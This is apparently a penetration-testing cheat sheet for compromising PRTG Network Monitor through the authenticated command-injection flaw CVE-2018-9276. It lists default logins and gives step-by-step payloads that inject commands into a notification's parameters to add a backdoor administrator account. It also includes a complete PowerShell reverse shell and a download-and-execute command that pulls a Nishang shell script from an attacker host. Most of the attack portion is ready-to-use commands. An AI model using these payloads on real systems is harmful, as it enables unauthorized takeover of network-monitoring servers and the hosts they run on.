 - Default Credentials: `prtgadmin:prtgadmin`, `prtgadmin:Password123`
- check version `curl -s http://<target>:8080/index.htm | grep "prtgversion"`


##  Exploitation (Authenticated RCE - CVE-2018-9276)

#### Step 1: 
- Login - Use default creds (prtgadmin:prtgadmin or bruteforce).

#### Step 2: Create Malicious Notificatio
- Navigate to: `Setup → Account Settings → Notifications → Add Notification`
- Configure:
    - Name: Pwned
    - Execute Program: Demo exe notification - outfile.ps1
    - Parameters:
        ```powershell
        test.txt;net user prtgadm Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm /add
        Click Test → Executes command.
        ```
- Click Test → Executes command.
#### Step 3: Verify Admin Access
```bash
crackmapexec smb <target_ip> -u prtgadm -p Pwn3d_by_PRTG!

# Expected Output:
[+] <target>\prtgadm:Pwn3d_by_PRTG! (Pwn3d!)
```

## Reverse Shell (Alternative to Adding User)
#### Method 1: PowerShell Reverse Shell
```PowerShell
test.txt;powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('YOUR_IP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
#### Method 2: Nishang Reverse Shell
- Upload `Invoke-PowerShellTcp.ps1
- Execute
```powershell
test.txt;powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IP YOUR_IP -Port 4444"
```

 

